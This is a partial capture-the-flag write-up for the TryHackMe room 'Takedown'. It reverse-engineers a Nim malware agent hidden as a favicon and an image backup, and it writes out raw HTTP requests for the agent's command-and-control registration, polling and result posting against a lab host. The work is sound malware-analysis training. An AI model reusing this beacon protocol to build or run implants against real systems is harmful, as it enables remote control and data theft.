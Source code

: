 # Takedown

https://tryhackme.com/room/takedown

Rated "INSANE"

- the server exposes port 80 (TODO CHECK)
- on the site, the favicon.ico is a windows binary. Additionally, under /images is shuttlebug.jpg.bak (an IoC according to the rooms intro) which is also a binary. These are the same program, for windows and linux.

Which binary you reverse doesn't matter so much, as much as what it does. Opening them with Ghidra shows they are nim binaries, which is a bit tricky to reverse but still possible.

- the entry point is the function `NimMainModule`
- it checks two flags, -v and -h. -h prints a short help message, while -v is presumably 'verbose', as its checked throughout the program before a message is printed telling you what the program is doing
- first thing it does is run `whoami`, checking the response against a hardcoded username `c.oberst`, as the 'keyed username'. if this fails the program exits
- next it runs the `hostname` command, and stores the result
- after that, in initial_check_in__main, it makes an api request with the hostname given. this is to `http://takedown.thm.local/api/agents/register`, with the user-agent `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5` and content type `application/json`. the content sent is `{"uid":"","hostname":""}` with the uid looking like a random string, and the hostname taken from above

  sending a request like:
  
  ```
  POST /api/agents/register HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 43

  {"uid":"fakeuid","hostname":"fakehost"}
  ```
  
  can be seen to respond with:
  
  ```
  New agent UID: fakeuid on host fakehost
  ```

- once registered, it enters a loop. this makes a call (in `check_for_commands__main`) to `http://takedown.thm.local/api/agents/[UID]/command` (with the useragent from before)

  this can be seen with
  
  ```
  GET /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close

  ```
  
  which responds with values like
  
  - `upload bar.txt foo.txt`
  - `id`
  - `whoami`
  - `hostname`
  - `pwd`

- when it receives a command, this is passed to `command_handler__main`, which splits the command on spaces. there are only a fixed number of commands, of which the most interesting are `exec`, `upload` and `download`. the command is run and then the result returned to main
- once run, the results are sent back to the command api handler as a post request, with the value in a results parameter:

  ```
  POST /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 25

  {"results":"fakeresult"}
  ```

  comes back with `OK`
